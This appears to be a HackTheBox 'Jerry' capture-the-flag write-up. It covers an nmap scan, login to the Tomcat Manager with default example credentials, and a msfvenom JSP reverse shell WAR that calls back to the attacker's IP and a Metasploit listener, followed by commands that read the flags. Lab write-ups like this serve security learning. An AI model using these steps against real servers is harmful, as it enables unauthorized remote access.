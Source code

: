 # HackTheBox Jerry  
## Difficulty: Easy  
## Platform: Windows 

## Enumaration:
I'll start with a simple nmap scan on the IP.

```bash
nmap -sC -sV -oN outputNMAP.txt 10.129.136.9
```

![NMAP Scan Output](img1.png)

The nmap scan reveals a web server on port 8080.

![TomCat](img2.png)

Trying to access the "Manager App" page prompts a login.

![LogIn](img3.png)

If we cancel the login we get this.

![LogInCancel](img4.png)

We can see a username and password are given as an exemple of credentials. Using them we can access the page.

![FoundUpload](img5.png)

## Foothold

I'll use msfvenom to make a reverse shell payload, upload it and also deploy it. I'll also open metasploit and set up the multi/handler module.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.54 LPORT=6666 -f war > shell.war
sudo msfconsole -q
use multi/handler
set LPORT 6666
set LHOST tun0
run
```


![UploadComp](img6.png)

I'll acces the page "/shell" and listen for a connection.

![Shell](img7.png)

I'm going to check out what user I am.

```cmd
whoami
```

![who](img8.png)

As we can see, we don't need to do any priveleage escalation.

I will get the flags now.

```cmd
cd ..
dir
cd Users
dir
cd Administrator
dir
cd Desktop
dir
cd flags
dir
type "2 for the price of 1.txt"
```

## We got both the user flag and the root flag!